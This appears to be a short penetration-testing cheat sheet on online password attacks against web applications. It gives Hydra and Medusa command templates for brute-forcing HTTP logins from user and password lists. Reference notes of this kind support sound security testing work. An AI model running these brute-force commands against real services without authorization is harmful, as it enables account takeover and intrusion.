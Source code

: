 # Password Attacks

Search Tag(s): #webapp-pentesting #broken-authentication #password-cracking #hydra

## 01 - Hydra

```
$ hydra -L users.lst -P passwords.lst http-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http-get://<IP>:[<PORT>][/path/to/URI]
```

## 02 - Medusa

```
$ medusa -H <IP> -U users.lst -P passwords.lst -M http [-m DIR:/path/to/URI]
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Tools/Hydra|Hydra]]